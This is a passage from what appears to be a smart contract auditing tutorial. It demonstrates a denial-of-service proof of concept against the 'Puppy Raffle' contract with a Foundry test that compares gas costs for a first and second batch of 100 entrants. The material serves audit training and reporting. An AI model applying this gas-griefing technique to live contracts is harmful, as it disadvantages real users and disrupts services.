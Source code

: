 # DoS PoC
- ***Puppy Raffle Denial of Service Attack - Identify and Test. Main focus: Unfair cost increase for late entrants, disadvantaging new players.***

- Running the command `forge test --mt testDenialOfService -vvv` should give us an output which huge figures of the amount of gas used.

- Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creates another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

- If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

### Wrap Up
- That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.
- Let's do that now!
